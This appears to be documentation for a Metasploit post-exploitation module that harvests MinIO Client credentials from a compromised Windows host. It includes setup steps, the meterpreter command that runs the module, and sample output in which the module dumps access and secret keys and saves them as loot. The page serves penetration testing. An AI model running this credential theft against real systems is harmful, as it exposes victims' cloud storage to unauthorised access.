 ### Installation Steps

  1. Download the latest installer of MinIO Client (https://dl.min.io/client/mc/release/windows-amd64/mc.exe).
  2. Run `mc alias set myminio https://play.min.io minioadmin minioadmin`.
  3. Run `mc admin info myminio`,check for working.

## Verification Steps

  1. Get a `meterpreter` session on a Windows host.
  2. Do: ```run post/windows/gather/credentials/minio_client```
  3. If the configuration file is found in the system, it will be printed out

## Options

### CONFIG_PATH

Specifies the config file path for MinIO Client (eg. `C:\Users\FireEye\mc\config.json`)

## Scenarios

```
meterpreter > run post/windows/gather/credentials/minio_client CONFIG_PATH="C:\Users\FireEye\mc\config.json"

[*] Parsing file C:\Users\FireEye\mc\config.json
MinIO Client Key
================

name     url                             accessKey             secretKey                                 api   path
----     ---                             ---------             ---------                                 ---   ----
gcs      https://storage.googleapis.com  YOUR-ACCESS-KEY-HERE  YOUR-SECRET-KEY-HERE                      S3v2  dns
local    http://localhost:9000                                                                           S3v4  auto
myminio  https://play.min.io             minioadmin            minioadmin                                s3v4  auto
play     https://play.min.io             Q3AM3UQ867SPQQA43P2F  zuf+tfteSlswRu7BJ86wekitnifILbZam1KYY3TG  S3v4  auto
s3       https://s3.amazonaws.com        YOUR-ACCESS-KEY-HERE  YOUR-SECRET-KEY-HERE                      S3v4  dns

[+] Session info stored in: /home/kali-team/.msf4/loot/20221206193240_default_172.16.153.128_host.minio_756923.txt
```
